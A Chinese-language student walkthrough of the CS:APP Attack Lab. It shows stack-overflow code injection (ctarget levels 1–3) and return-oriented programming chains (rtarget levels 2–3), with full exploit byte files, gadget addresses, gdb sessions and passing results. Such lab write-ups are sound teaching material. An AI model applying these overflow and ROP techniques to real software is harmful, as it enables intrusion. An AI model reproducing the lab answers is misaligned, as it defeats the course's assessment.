

# CSAPP - Attack Lab
## CTarget level 1

根据[writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf)中的提示，用code-injection的方法使原程序执行想要的函数（touch1），主要用到的知识在书中的第三章的内存越界和缓冲区溢出章节可以看到。需要使用objdump反汇编可执行文件，找到目标函数touch1的入口地址为0x4017c0。攻击的原理是，程序运行时会调用Gets从标准输入读入字符串，但是Gets函数的实现是不安全的，没有进行边界检查，读入的字符串可能会超过缓冲区的大小。
```c
unsigned getbuf() {
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```
所以，让Gets函数读入超过在栈上分配的空间大小的字符串，同时覆盖栈帧上的返回地址（8字节），可以使得getbuf在返回的时候，ret指令读取$rsp指向的栈上的内容是我们想要的touch1函数入口地址。由于BUFFER\_SIZE是编译阶段确定的常量，需要从汇编代码中确定缓冲区的大小。
```x86asm
00000000004017a8 <getbuf>:
  4017a8:    48 83 ec 28              sub    $0x28,%rsp
  4017ac:    48 89 e7                 mov    %rsp,%rdi
  4017af:    e8 8c 02 00 00           callq  401a40 <Gets>
  4017b4:    b8 01 00 00 00           mov    $0x1,%eax
  4017b9:    48 83 c4 28              add    $0x28,%rsp
  4017bd:    c3                       retq   
  4017be:    90                       nop
  4017bf:    90                       nop
```

可以看到，在栈上分配了0x28即40字节的空间，所以当我们输入超过了40字节的字符串，利用Gets的不安全性，即可覆盖栈上的getbuf的返回地址。

实验工具中有一个叫做hex2raw的字节码转换工具，开始没弄懂什么意思，看了这篇[博文](https://mcginn7.github.io/2020/02/19/CSAPP-attacklab/)才想通。原来这个工具可以将我们输入的字符表示的十六进制字节码转换为字符串。注意，输入到hex2raw的每个字节（8bit）用两位十六进制数表示，用空格或换行符分开每个字节的十六进制表示。如下是使用示例：（字符'A'的ascii码是0x41）

所以要完成attack，需要输入48字节，由于x86是小端编址，低字节在低地址。每个字符依次从($rsp)填充到($rsp+47)所指向的位置，所以对于最后8个字节，我们应该先输入位于低字节的返回地址的后8位0xc0。最终的bytes内容是：

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

用hex2raw转换后作为ctarget的输入，可以实现code-injection攻击(call touch1)。

## CTarget level2

这次的注入攻击不仅要求控制跳转，还需要执行一些额外的添加指令。要求执行函数touch2中的指定if分支，所以还需要设置touch2传递的参数。

```c
void touch2(unsigned val) {
    vlevel = 2;
    if (val == cookie) {
        printf("Touch 2! You have called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire! You have called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
由于不仅要使得getbuf函数结束后控制跳转到touch2，还必须设置参数val（第一个参数保存在$rdi)为cookie，才能正确触发攻击。先查看touch2的汇编代码：
```x86asm
00000000004017ec <touch2>:
  4017ec:    48 83 ec 08              sub    $0x8,%rsp
  4017f0:    89 fa                    mov    %edi,%edx
  4017f2:    c7 05 e0 2c 20 00 02     movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:    00 00 00 
  4017fc:    3b 3d e2 2c 20 00        cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:    75 20                    jne    401824 <touch2+0x38>
  401804:    be e8 30 40 00           mov    $0x4030e8,%esi
  401809:    bf 01 00 00 00           mov    $0x1,%edi
  40180e:    b8 00 00 00 00           mov    $0x0,%eax
  401813:    e8 d8 f5 ff ff           callq  400df0 <__printf_chk@plt>
  ```
发现参数val与(0x202ce2 + $rip)所指向的值比较，即与cookie比较。需要用gdb查看cookie，但是注意，这里有个坑！我一开始是把断点打到了  
4017fc:    3b 3d e2 2c 20 00        cmp    0x202ce2(%rip),%edi 

这条指令，即``(gdb) break *0x4017fc``。在此时打印cookie的值为：
```
    (gdb) print /x *(unsigned *)($rip + 0x202ce2)$15 = 0x2f8a0000
```
但是注意gdb被打到断点时的指令是还未运行的指令，所以此时的rip并不是指向断点指令的下一条指令，也就不是真正的参与cmp运算的rip的值，所以要通过stepi，使断点指向下一条指令，这时候查看($rip + 0x202ce2)所指向的值：
```
(gdb) print /x *(int *)($rip + 0x202ce2)$17 = 0x59b997fa
(gdb) print $rip$18 = (void (*)()) 0x401802 <touch2+22>
```
所以0x59b997fa才是正确的cookie的值。

现在可以编写需要注入的代码了。即设置$rdi的值为cookie，之后将控制跳转到touch2，可以先使用push指令将touch2的入口地址压栈，再使用ret指令从栈中获取返回地址，从而跳转到touch2。这段代码保存在code.s文件中：
```x86asm
mov $0x59b997fa, %rdi
push $0x4017ec
ret
```
再使用gcc编译code.s为code.o目标文件，再用objdump反汇编这段代码，得到这段代码的十六进制表示：
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ vim code.s
sugar@ubuntuServer:~/csappLab/attacklab$ gcc -Og -c code.s
sugar@ubuntuServer:~/csappLab/attacklab$ objdump -d code.o
code.o:     file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:    48 c7 c7 fa 97 b9 59     mov    $0x59b997fa,%rdi
   7:    68 ec 17 40 00           pushq  $0x4017ec
   c:    c3                       retq  
```
最后一个问题，如何让程序ctarget执行这段代码呢？由于我们只能以Gets函数为突破口，输入字符串保存在栈上，所以与上一题类似，我们通过覆盖getbuf的返回地址，但这次让新返回地址指向buffer的起始地址，由于getbuf在栈上分配了buffer的空间（通过减$rsp分配了40Bytes的空间），这就是留给我们注入代码的位置。在getbuf函数执行ret指令后，跳转到我们注入的代码开始执行。



找到buffer被分配到的地址
```txt
Breakpoint 1, 0x00000000004017af in getbuf () at buf.c:14
14    buf.c: No such file or directory.
(gdb) print $rsp
$1 = (void *) 0x5561dc78
```
所以我们的输入bytes文件为：
```txt
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
可以正确完成攻击：
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ vim bytes 
sugar@ubuntuServer:~/csappLab/attacklab$ ./hex2raw < bytes > args.txt 
sugar@ubuntuServer:~/csappLab/attacklab$ ./ctarget -q -i args.txt 
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
    user id    bovik
    course    15213-f15
    lab    attacklab
    result    1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```
## Ctarget level3

需要让ctarget执行touch3的指定分支，与touch2类似，只不过参数变成了指向一个字符串的指针。要求该字符串的值与cookie的无符号值的十六进制字符表示相等，即字符串是 `59b997fa`。

同样需要将getbuf的返回地址覆盖为注入代码的起始地址，也与touch2相同为：0x5561dc78。

由于hexmatch函数还会在栈上随机的破坏128字节的buffer空间，为了不让hexmatch函数破坏我们设置的字符串，注入的代码可以将rsp减去一定的值（至少保证rsp的新址超过字符串存储的起始地址），这样就可以防止字符串被破坏了。

touch的参数保存在rdi中，目前还不确定字符串的起始地址，可以随便写一个
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ vim code.s 
sugar@ubuntuServer:~/csappLab/attacklab$ gcc -Og -c code.s
sugar@ubuntuServer:~/csappLab/attacklab$ objdump -d code.o

code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0: 48 c7 c7 ff 17 40 00    mov    $0x4017ff,%rdi
   7: 48 83 ec 10             sub    $0x40,%rsp
   b: 68 fa 18 40 00          pushq  $0x4018fa
  10: c3                      retq   
sugar@ubuntuServer:~/csappLab/attacklab$ cat code.s
mov $0x4017ff, %rdi
sub $16, %rsp
push $0x4018fa
ret
```
计算真正的string需要填充到的位置：（buffer起始地址加上注入代码的字节码长度）
```
(gdb) print /x (0x5561dc78 + 17)
$2 = 0x5561dc89
```
重新生成注入代码
```x86asm
Disassembly of section .text:

0000000000000000 <.text>:
   0: 48 c7 c7 89 dc 61 55    mov    $0x5561dc89,%rdi
   7: 48 83 ec 40             sub    $0x40,%rsp
   b: 68 fa 18 40 00          pushq  $0x4018fa
  10: c3                      retq
```
但是并没有成功。发现问题，我在bytes中写的59b997fa是直接写入的，但是要把每个数转为ascii码：  
字符：      5  9  b  9  9  7  f  a  
对应ascii： 35 39 62 39 39 37 66 61

再写入bytes文件：
```txt
48 c7 c7 89 dc 61 55 48
83 ec 40 68 fa 18 40 00
c3 35 39 62 39 39 37 66
61 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
成功！
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ vim bytes 
sugar@ubuntuServer:~/csappLab/attacklab$ ./hex2raw < bytes > args.txt 
sugar@ubuntuServer:~/csappLab/attacklab$ ./ctarget -q -i args.txt 
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
   user id  bovik
   course   15213-f15
   lab   attacklab
   result   1:PASS:0xffffffff:ctarget:3:48 C7 C7 89 DC 61 55 48 83 EC 40 68 FA 18 40 00 C3 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```
## Rtarget level2

使用Return-Oriented Programming 来完成同样的touch2的攻击。这次的限制条件是不能在栈上注入代码，因为rtarget使用了栈随机化和段检查，导致程序不能执行栈上的代码。由于我不信，所以来验证一下：

栈随机化：
```sh
Breakpoint 1, getbuf () at buf.c:16
16  buf.c: No such file or directory.
(gdb) print $rsp
$1 = (void *) 0x7ffffffb16d0
(gdb) kill
Kill the program being debugged? (y or n) y
(gdb) run -q -i args.txt 
Starting program: /home/sugar/csappLab/attacklab/rtarget -q -i args.txt
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:16
16  in buf.c
(gdb) print $rs
$2 = (void *) 0x7ffffffa6d50
```
发现确实两次相同断点位置的rsp的值不同。

禁止执行栈上的代码
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ ./rtarget -q -i args.txt 
Cookie: 0x59b997fa
Ouch!: You caused a segmentation fault!
Better luck next time
FAIL: Would have posted the following:.......
```
根据writeup中的说明，我们仍然可以用buffer的溢出来注入一些数据，但是这次只能利用源程序汇编代码中已有的字节码，断章取义，拼凑出我们想要执行的代码。

比如
```x86asm
c7 07 d4 48 89 c7       movl   $0xc78948d4,(%rdi)
c3                      retq
```
可以断章取义为：
```x86asm
48 89 c7     movq %rax, %rdi
c3     retq
```
所以在利用buffer溢出的时候，在栈上填写我们想要的地址或者数据，再从源程序中找到可以构成有意义的代码的片段，完成攻击。writeup中提示，可以在rtarget的函数start_farm和mid_farm之间的汇编代码中找到想要的，所以找就完事了。下面是rtarget的反汇编文件部分内容：
```x86asm
0000000000401994 :
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq   
...

00000000004019a7 :
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
...
00000000004019c3 :
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   

00000000004019ca :
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   

00000000004019d0 :
```
下图是栈上的内容，也可以理解为最终的攻击逻辑：
```txt
            64bit          0
            +--------------+ 0 byte
            |   0x4017ec   |   --> touch2的起始地址
            +--------------+ -8
            |   0x4019c5   |   --> 48 89 c7, 90, c3 -> movq %rax, %rdi | nop | ret (设置了touch2的参数)
            +--------------+ -16
            |  0x59b997fa  |    --> cookie的值，也就是touch2的参数
            +--------------+ -24
  getbuf -> |  0x4019ab    |    --> 58, 90, c3 -> popq %rax | nop | ret (此时rsp的值为-8，即ret跳转到0x4019c5)
ret address +--------------+ -32
            |              |
            |              |
            |              |
            +--------------+ <- buffer起始地址 -72```
即我们让程序最终执行的代码（在getbuf的ret指令后、touch2函数的第一条指令前）可以认为是：
```x86asm
popq %rax
nop
ret
movq %rax, %rdi
nop
ret
```
完成了ROP攻击：
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ cat bytes 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00

sugar@ubuntuServer:~/csappLab/attacklab$ ./hex2raw < bytes > args.txt 
sugar@ubuntuServer:~/csappLab/attacklab$ ./rtarget -q -i args.txt 
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```
## Rtarget level3

用ROP对touch3做攻击，所需要的gatget在start\_farm到end\_farm之间，所以先把能找到的gatget都翻译出来，到时候要用的时候直接可以找到。这个的难点就是计算字符串参数的地址，需要用到已经提供的lea指令，``lea (rdi, rsi, 1), rax`` . 我这边画出最终攻击后的栈的内容，可以很好理解了。
```txt
            64bit          0
            +--------------+
            | cookie       |  = "59b997fa" => 35 39 62 39 39 37 66 61
            +--------------+
            |   0x4018fa   |  --> touch3的入口地址
            +--------------+
            |   0x4019c5   |  --> mov rax, rdi ｜ ret  # 保存到第一个参数
            +--------------+
            |   0x4019d6   |   --> lea (rdi, rsi, 1), rax  # 计算string的真实地址
            +--------------+
            |   0x401a27   |   --> mov ecx, esi  | ret
            +--------------+
            |  0x401a34    |    --> mov edx, ecx  | ret
            +--------------+
            |   0x401a42   |  --> mov eax, edx  | ret
            +--------------+ 0 byte
            |   0x48       |   --> string的偏移量
            +--------------+ -8
            |   0x4019ab   |   --> popq rax (string在栈上的偏移量)  | ret
            +--------------+ -16
            |  0x4019c5    |    --> movq rax, rdi   | ret
            +--------------+ -24
  getbuf -> |  0x401aad    |    --> movq rsp, rax  | ret  # 以当前的rsp作为基址
ret address +--------------+ -32
            |              |
            |              |
            |              |
            +--------------+ <- buffer起始地址 -72
```
bytes文件的内容
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
42 1a 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```
完成了攻击：
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ ./hex2raw < bytes  > args.txt 
sugar@ubuntuServer:~/csappLab/attacklab$ ./rtarget -q -i args.txt 
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:
```